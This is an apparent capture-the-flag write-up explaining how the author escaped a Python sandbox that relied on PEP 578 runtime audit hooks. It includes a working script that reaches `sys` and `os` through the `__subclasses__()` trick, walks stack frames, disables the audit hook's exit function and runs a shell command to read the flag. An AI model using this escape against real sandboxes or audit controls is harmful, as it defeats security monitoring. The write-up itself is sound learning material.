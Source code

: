 # audited


For this challenge we had to bypass runtime audit hooks in the Python interpreter, which were a new addition in Python 3.8. In a nutshell, audit hooks allow scripts to add a hook which is called whenever any interesting function is called. These events cover things like creating new code objects, opening files, and execveing. You can find a comprehensive list of all audit events in the [CPython documentation](https://docs.python.org/3/library/audit_events.html), and for more implementation details see the [PEP publication](https://www.python.org/dev/peps/pep-0578/).

After looking through all recent entries in the Python bugtracker, and all PRs on GitHub, I didn't spot any obvious bugs, so this was either a previously-unknown bug in the audit implementation, or the developers had forgotten to add audit hooks for some useful function, or we had to attack the registered audit function itself.

The latter option seemed like the most likely, and it was clear that if we could get a reference to the __main__ module, then we could overwrite the __exit function in there to stop the audit function from actually exiting. 

I achieved this like so:
```python
classes = 'a'.__class__.__base__.__subclasses__()
sys = classes[133].__init__.__globals__['sys']
os = classes[94].__init__.__globals__['_os']

try:
    raise Exception()
except Exception as e:
    _, _, tb = sys.exc_info()
    nxt_frame = tb.tb_frame

    # Walk up stack frames until we find one which
    # which has a reference to the audit function
    while nxt_frame:
        if 'audit' in nxt_frame.f_globals:
            break
        nxt_frame = nxt_frame.f_back

    # Neuter the __exit function
    nxt_frame.f_globals['__exit'] = print

    # Now we're free to call whatever we want
    os.system('cat /flag*')
```

